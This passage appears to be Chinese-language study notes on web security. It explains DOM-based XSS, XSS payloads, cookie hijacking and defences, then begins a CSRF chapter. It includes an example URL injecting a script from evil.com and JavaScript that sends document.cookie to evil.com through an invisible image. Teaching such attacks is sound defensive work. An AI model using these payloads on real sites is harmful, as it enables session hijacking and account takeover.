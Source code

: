 3. DOM Based XSS    

实际上，这种类型的XSS并非按照“数据是否保存在服务器端”来划分，DOM Based XSS从效果上来说
也是反射型XSS。单独划分出来，是因为DOM Based XSS的形成原因比较特别，发现它的安全专家专
门提出了这种类型的XSS。出于历史原因，也就把它单独作为一个分类了。    

通过修改页面的DOM节点形成的XSS，称之为DOM Based XSS。   

## 3.2 XSS 攻击进阶

### 3.2.1 初探 XSS Payload

XSS攻击成功后，攻击者能够对用户当前浏览的页面植入恶意脚本，通过恶意脚本，控制用户的
浏览器。这些用以完成各种具体功能的恶意脚本，被称为“XSS Payload”。      

XSS Payload实际上就是JavaScript脚本（还可以是Flash或其他富客户端的脚本），所以任何
JavaScript脚本能实现的功能，XSS Payload都能做到。    

一个最常见的XSS  Payload，就是通过读取浏览器的Cookie对象，从而发起“Cookie劫持”攻击。   

Cookie中一般加密保存了当前用户的登录凭证。Cookie如果丢失，往往意味着用户的登录凭证丢失。
换句话说，攻击者可以不通过密码，而直接登录进用户的账户。    

如下所示，攻击者先加载一个远程脚本:   

```
http://www.a.com/test.html?abc=<script src="http://www.evil.com/evil.js"></script>
```   

真正的XSS Payload写在这个远程脚本中，避免直接在URL的参数里写入大量的JavaScript代码。   

在evil.js中，可以通过如下代码窃取Cookie:   

```js
var img = document.createElement("img");
img.src = "http://www.evil.com/log?" + escape(document.cookie);
document.body.appendChild(img)
```   

这段代码在页面中插入了一张看不见的图片，同时把document.cookie对象作为参数发送到远程服务器。   

等等，能这样做的前提是页面中会将 a 参数的内容显示在页面中，否则脚本是不会执行的。   

Cookie的“HttpOnly”标识可以防止“Cookie劫持”。    

### 3.2.2 强大的 XSS Payload

攻击者除了可以实施“Cookie劫持”外，还能够通过模拟GET、POST请求操作用户的浏览器。     

## 3.3 XSS 的防御

1. HttpOnly
2. 编码特殊字符    

# 第 4 章 跨站点请求伪造（CSRF)

Cross Site Request Forgery。    
